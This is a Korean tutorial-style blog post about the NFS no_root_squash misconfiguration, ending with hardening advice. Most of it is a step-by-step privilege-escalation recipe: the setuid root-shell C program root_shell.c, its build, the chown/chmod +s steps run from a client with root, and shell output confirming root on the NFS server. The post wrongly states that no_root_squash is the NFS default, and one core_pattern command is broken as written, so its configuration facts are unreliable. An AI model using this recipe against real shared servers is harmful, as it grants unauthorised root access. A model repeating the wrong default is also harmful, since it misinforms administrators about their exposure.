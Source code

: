```yaml
---
title: "NFS 서버 no_root_squash 세팅 취약점"
category: Security
toc: true
toc_label: "이 페이지 목차"
---
```


NFS 서버의 no_root_squash 설정 취약점을 이용하여 NFS 서버의 root shell을 얻는 방법을 보여준다.

## NFS 서버 설정
NFS 서버의 설정 파일인 `/etc/exports` 파일에서는 NFS export 할 경로와 옵션을 설정하는데, 이 중에서 보안 관련해서 다음 2가지 중요한 설정이 있다.
- `root_squash`: 클라이언트 호스트의 uid 0에서의 request를 서버의 uid 65534(-2)로 매핑함으로써, 지정된 호스트의 슈퍼 유저의 액세스를 거부하는 보안 기능이다. (uid 65534는 유저 nobody 임)
- `no_root_squash`: uid 0으로부터의 request를 매핑하지 않는다. 즉, client의 root는 server의 root와 같은 권한을 가진다. 이것은 디폴트로 켜져 있으므로 이것을 그대로 사용하면 보안 위험이 있다.

위와 같이 <mark style='background-color: #ffdce0'>no_root_squash</mark> 설정이 디폴트이므로, 만약에 여러 명이서 함께 사용하는 NFS 서버인 경우에는 명시적으로 <mark style='background-color: #dcffe4'>root_squash</mark> 설정을 하지 않으면, NFS 서버의 root shell을 얻을 수 있는 심각한 보안 위험이 있는데, 해킹 방법을 아래에서 예시하겠다.

> 물론 여기서는 NFS 서버에 해당 로그인 계정이 있어야 하는데, NFS 서버를 운영하는 경우는 사실상 이 경우일 것이다.

## Host에서 root shell 얻기 테스트
1. NFS 서버에서 작업하기 전에, 먼저 본인이 관리하는 서버에서 사전 테스트를 해 보자.  
   서버에서 아래와 같이 root_shell.c 파일을 작성한다.
   ```c
   #include <fcntl.h>
   #include <stdlib.h>
   #include <stdio.h>
   #include <sys/stat.h>
   #include <unistd.h>

   int main(int argc, char *argv[])
   {
       setuid(0);
       setgid(0);

       close(0);
       open("//dev/tty", O_RDWR);

       system("/bin/sh");
       return 0;
   }
   ```
1. 아래와 같이 빌드한다.
   ```sh
   $ gcc -o root_shell root_shell.c
   ```
1. 아래와 같이 해당 프로그램에 대하여 실행시 root 권한을 부여한다. (즉, **suid**(set-user-identifier) 모드 설정)
   ```sh 
   $ sudo chown root:root root_shell
   $ sudo chmod +s root_shell
   ```
   그러면 ls 명령으로 확인시 다음과 같은 속성을 확인할 수 있다. (아래에서 NFS 서버를 사용하는 경우에도 이 상태를 만드는 것이 목표임)
   ```sh
   $ ls -l root_shell
   -rwsr-sr-x 1 root     root     8480  11월 14 17:43 root_shell
   ```
1. 이제 아래와 같이 실행해서 테스트 해보면, root 권한이 얻어졌음을 확인할 수 있다.
   ```sh
   $ ./root_shell
   sh-4.4# whoami
   root
   ```

위에서 내 서버에서의 root 권한을 획득하였다.  
이제 <mark style='background-color: #ffdce0'>no_root_squash</mark> 설정의 보안 취약점을 이용하여 NFS 클라이언트에서 **suid**를 설정하고, 결과로 NFS 서버의 root 권한을 획득해 보자.

## NFS 서버 확인
NFS 서버에서 아래와 NFS export 옵션을 확인해 본다.
```sh
$ cat /etc/exports
```
위 출력 결과에서 만약에 옵션 내용에 <mark style='background-color: #ffdce0'>no_root_squash</mark>가 있거나, <mark style='background-color: #dcffe4'>root_squash</mark> 옵션이 없으면 공격 대상이다. 이 경우 아래와 같은 방법으로 root shell을 얻을 수 있다.

## no_root_squash 세팅시 root shell 얻기
1. 위의 root_shell.c 파일을 NFS 서버의 본인 계정으로 복사한 후, NFS 서버에서 마찬가지로 빌드한다.
   ```sh
   $ gcc -o root_shell root_shell.c
   ```
   빌드된 실행 파일을 NFS 디렉터리로 복사한다.
1. Target 디바이스에서 NFS 디렉터리를 마운트 한 후, 마운트 된 디렉터리로 이동한다.  
   Target 디바이스는 나에게 root 권한이 있다. 또, NFS 서버의 <mark style='background-color: #ffdce0'>no_root_squash</mark> 설정 덕분에, 아래와 같이 root_shell 프로그램의 사용자를 root로 변경하고, **suid**(set-user-identifier) 모드를 설정할 수 있다.
   ```sh
   $ sudo chown root:root root_shell
   $ sudo chmod +s root_shell
   ```
1. 이제 이 파일을 NFS 서버에서 확인해 보면 아래와 같이 사용자 및 모드가 바뀌어 있음을 확인할 수 있다.
   ```sh
   $ ls -l
   -rwsr-sr-x 1 root     root     8480  11월 14 17:50 root_shell
   ```
1. 이제 NFS 서버에서 이 파일을 실행하면 마찬가지로 root shell을 얻을 수 있다.
   ```sh
   $ ./root_shell
   sh-4.4# whoami
   root
   ```

## 올바른 NFS 서버 설정
따라서 여러 명이서 함께 사용하는 NFS 서버인 경우에는 `/etc/exports` 파일에서 명시적으로 <mark style='background-color: #dcffe4'>root_squash</mark> 설정을 해야 한다.  
<br>
참고로 이렇게 설정을 하면 NFS 클라이언트에서 root 권한으로 write가 안되므로, NFS 디렉터리에 root 권한으로 core dump 파일이 생성이 되지 않는다.  
이 경우에 NFS 디렉터리에 core dump 파일이 생성되게 하려면 다음 방법 중의 하나를 사용할 수 있겠다.
1. Target 디바이스에서 아래 예와 같이 core dump 파일이 외부 USB 저장 장치에 생성되도록 core path를 설정한다.
   ```sh
   $ sudo echo "/mnt/usb/core" > /proc/sys/kernel/core_pattern
   ```
1. NFS 서버의 마운트 디렉터리에서 아래와 같이 root 권한의 core 파일을 생성해 놓는다. (단, 관리자만 가능)
   ```sh
   $ sudo touch core
   $ sudo chmod 666 core
   ```
